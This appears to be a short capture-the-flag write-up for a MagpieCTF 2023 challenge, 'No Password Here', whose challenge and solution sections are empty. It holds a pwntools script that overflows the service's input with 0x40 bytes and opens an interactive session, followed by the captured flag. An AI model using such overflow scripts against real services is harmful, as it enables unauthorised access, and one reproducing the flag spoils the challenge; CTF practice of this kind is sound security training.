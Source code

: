 # No Password Here

## Challenge

## Solution

## Exploit

```py
#!/usr/bin/env python3
from pwn import *

host = args.HOST or 'srv1.2023.magpiectf.ca'
port = int(args.PORT or 1996)

io = connect(host, port)

io.sendline(b'A' * 0x40)

io.interactive()
```

## Flag

```
magpie{5c4nf_n07_54f3}
```
